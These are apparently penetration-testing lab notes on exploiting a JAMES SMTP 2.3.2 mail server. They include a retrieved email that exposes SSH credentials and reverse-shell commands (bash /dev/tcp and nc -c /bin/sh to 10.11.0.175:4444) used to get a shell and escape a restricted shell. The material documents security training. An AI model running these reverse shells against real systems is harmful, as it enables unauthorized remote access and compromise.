

https://www.exploit-db.com/exploits/35513/
use creds below to ssh, then run break out of jail from internet to get shell, then priv esc...
Found below message in pop3 through telnet
used creds to login to server through ssh
reverse shell ran as soon as i auth'd....

RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <19262980.2.1420734423735.JavaMail.root@pop3>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: ryuu@localhost
Received: from localhost ([127.0.0.1])
by pop3 (JAMES SMTP Server 2.3.2) with SMTP ID 874
for <ryuu@localhost>;
Thu, 8 Jan 2015 11:27:01 -0500 (EST)
Date: Thu, 8 Jan 2015 11:27:01 -0500 (EST)
From: mailadmin@localhost
Dear Ryuu,
Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any command you need to your path.
username: ryuu
password: QUHqhUPRKXMo4m7k
Kind regards,
Matt
.
chsh -s /usr/local/bin/bash ryuu
bash -i >& /dev/tcp/10.11.0.175/4444 0>&1
chsh -s /bin/bash ryuu
nc -c /bin/sh 10.11.0.175 4444
ryuu@beta:/bin$ export PATH=/bin:/usr/bin:$PATH